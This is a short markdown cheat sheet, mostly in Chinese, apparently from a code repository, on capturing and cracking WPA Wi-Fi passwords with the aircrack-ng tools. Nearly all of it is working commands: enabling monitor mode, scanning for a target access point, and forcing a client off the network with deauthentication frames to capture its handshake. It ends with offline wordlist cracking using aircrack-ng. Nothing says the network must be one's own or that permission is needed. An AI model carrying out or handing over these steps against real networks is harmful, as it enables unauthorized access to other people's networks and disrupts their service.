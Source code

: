 


#### 截获登录wifi的4次握手包信息(.cap文件）

~~~
# 看下是 Managed 还是 monitor 模式
iwconfig

# 从Managed 模式，转为 monitor
# 可能不成功，按提示，可能要kill掉一些进程后重试，执行：
# airmon-ng check kill
airmon-ng start wlan0mon
# 或者，airmon-ng start wlan0** ，不太确定

# 开始搜索周围wifi信息，保存搜索日志到当前目录 wifis 前缀的文件中
# -M ： 打印 Manufacture信息
# 从中找到目标wifi等BSSID，例如，78:11:DC:10:4F:66
airodump-ng wlan0 -w wifis -M

# airodump 针对 刚刚找到的 BSSID 为目标
# 例如，BSSID = 78:11:DC:10:4F:66 ， CH = 7
# 从结果中找到 STATION 的 MAC 地址，例如：6C:88:14:F2:47:8C
airodump-ng -c 7 --bssid 78:11:DC:10:4F:66 -w psk wlan0mon

# 【另开一个terminal】
# 用 aireplay-ng 让目标Station断线重连，
# 在 airodump-ng 的terminal 窗口就能捕获 "WPA handshake"
# 在磁盘中找到对应的 cap 数据包，接下来用 aircrack-ng 或者 hashcat进行离线破解
aireplay-ng -0 20 -c 6C:88:14:F2:47:8C -a 78:11:DC:10:4F:66 wlan0mon

# 无线网卡退出 Monitor 模式
airmon-ng stop wlan0mon
~~~


#### 破解cap

##### aircrack-ng

* [aircrack-ng - FAQ](http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists)

~~~
aircrack-ng -w [字典-path] [破解的目标握手包-path]
~~~

~~~
aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/Desktop/*.cap

-a is the method aircrack will use to crack the handshake, 2=WPA method.
-b stands for bssid, replace [router bssid] with the BSSID of the target router, mine is 00:14:BF:E0:E8:D5.
-w stands for wordlist, replace [path to wordlist] with the path to a wordlist that you have downloaded. I have a wordlist called “wpa.txt” in the root folder.
/root/Desktop/*.cap is the path to the .cap file containing the password. The * means wild card in Linux, and since I’m assuming that there are no other .cap files on your Desktop, this should work fine the way it is.
~~~

